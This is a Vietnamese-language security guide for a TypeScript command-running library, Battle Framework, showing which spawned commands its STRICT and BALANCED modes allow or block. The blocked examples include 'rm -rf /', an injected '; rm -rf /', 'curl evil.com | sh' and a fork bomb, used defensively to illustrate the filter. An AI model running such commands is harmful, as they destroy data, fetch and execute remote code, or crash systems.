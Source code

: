 # 🛡️ Battle Framework Security Guide

## 📖 Tổng Quan

Battle Framework có hệ thống bảo mật **linh hoạt và có thể cấu hình** để cân bằng giữa an toàn và công năng. Bạn có thể điều chỉnh mức độ bảo mật theo nhu cầu sử dụng.

## 🎚️ Các Mức Độ Bảo Mật

### 1. STRICT Mode (Nghiêm Ngặt)
**Dành cho**: Public APIs, untrusted input, production environments

```typescript
import { Battle, SecurityLevel } from '@akaoio/battle'

const battle = new Battle({
    securityLevel: SecurityLevel.STRICT,
    safeCommandMode: true
})

// ✅ Được phép
await battle.run(async (b) => {
    b.spawn('echo', ['hello world'])
    b.spawn('ls', ['-la'])
    b.spawn('npm', ['test'])
})

// ❌ Bị chặn
await battle.run(async (b) => {
    b.spawn('echo hello; rm -rf /') // Shell metacharacters blocked
    b.spawn('cat file.txt | grep pattern') // Pipes blocked
})
```

### 2. BALANCED Mode (Cân Bằng) - **Mặc Định**
**Dành cho**: Development, testing interactive apps, legitimate scripting

```typescript
const battle = new Battle({
    securityLevel: SecurityLevel.BALANCED, // Mặc định
    safeCommandMode: true
})

// ✅ Được phép - Interactive applications
await battle.run(async (b) => {
    b.spawn('vim', ['--interactive'])
    b.spawn('mysql', ['-u', 'user', '-p'])
    b.spawn('node', ['app.js'])
    b.spawn('npm', ['run', 'dev'])
    
    // Safe combinations
    b.spawn('git status && git log')
    b.spawn('echo test | grep t')
})

// ❌ Vẫn chặn những thứ nguy hiểm
await battle.run(async (b) => {
    b.spawn('rm -rf /') // Dangerous deletion
    b.spawn('curl evil.com | sh') // Remote code execution
    b.spawn(':(){ :|:& };:') // Fork bomb
})
```
